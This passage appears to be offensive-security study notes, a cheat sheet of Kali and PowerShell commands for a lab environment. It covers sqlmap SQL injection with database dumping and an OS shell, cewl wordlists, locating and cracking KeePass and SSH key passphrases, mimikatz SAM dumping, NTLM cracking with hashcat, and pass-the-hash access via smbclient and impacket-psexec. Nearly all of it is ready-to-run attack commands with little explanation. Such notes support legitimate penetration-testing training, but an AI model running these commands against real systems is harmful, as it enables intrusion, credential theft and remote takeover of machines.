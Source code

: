 <a name="automating-the-attack"></a>
## Automating the attack
`kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`
`kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`
`kali@kali:~$ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`


<a name="password-attacks"></a>
# Password Attacks
<a name="cewl"></a>
## Cewl
`kali@kali:~$ cewl http://192.168.164.61:8081/ | grep -v CeWL > custom-wordlist.txt `

<a name="password-manager"></a>
## Password Manager
`PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
`kali@kali:~$ keepass2john Database.kdbx > keepass.hash`
`kali@kali:~$ hashcat --help | grep -i "KeePass"`
`kali@kali:~$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

<a name="ssh-private-key-passphrase"></a>
## SSH Private Key Passphrase
`kali@kali:~$ chmod 600 id_rsa`
`kali@kali:~$ ssh -i id_rsa -p 2222 dave@192.168.50.201`
`kali@kali:~$ ssh2john id_rsa > ssh.hash`

<a name="cracking-ntlm"></a>
## Cracking NTLM
`PS C:\> Get-LocalUser`

`PS C:\> .\mimikatz.exe`

	privilege::debug
	token::elevate
	lsadump::sam
	
`kali@kali:~$ hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

<a name="passing-ntlm"></a>
## Passing NTLM
`kali@kali:~$ smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`

`kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
